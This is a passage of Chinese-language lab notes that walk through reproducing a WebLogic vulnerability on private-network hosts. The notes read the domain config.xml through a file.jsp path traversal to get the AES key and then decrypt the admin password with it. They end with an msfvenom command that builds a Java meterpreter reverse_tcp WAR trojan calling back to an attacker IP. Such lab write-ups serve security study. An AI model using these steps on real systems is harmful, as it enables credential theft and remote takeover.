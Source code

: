 ```
访问这个地址，获取密钥文件。下载下来查看即可得到aes的密钥。
http://192.168.15.50:7001/hello/file.jsp?path=/root/Oracle/Middleware/user_projects/domains/base_domain/config/config.xml
```

![image-20241119164811344](中间件漏洞/image-20241119164811344.png)	

```
打开Weblogic解密工具,进行解密，密文放入aes密钥。于是解密出密码。

如果报错，换成jdk8的环境
并且需要手动下载这个jar包。
https://repo1.maven.org/maven2/org/bouncycastle/bcprov-jdk15on/1.56/bcprov-jdk15on-1.56.jar
然后将文件存在本地安装的JDK路径下，例如 E:\Java\jdk1.8.0_60\jre\lib\ext
```

![image-20241119171844533](中间件漏洞/image-20241119171844533.png)		

```
注意:kali机器最好使用2021版本的，太新版本可能会复现漏洞失败。
接下里生成Java环境的war包木马
msfvenom -p java/meterpreter/reverse_tcp lhost=192.168.15.128 lport=4444 -f war -o java.war
```

![image-20241119172452386](中间件漏洞/image-20241119172452386.png)	
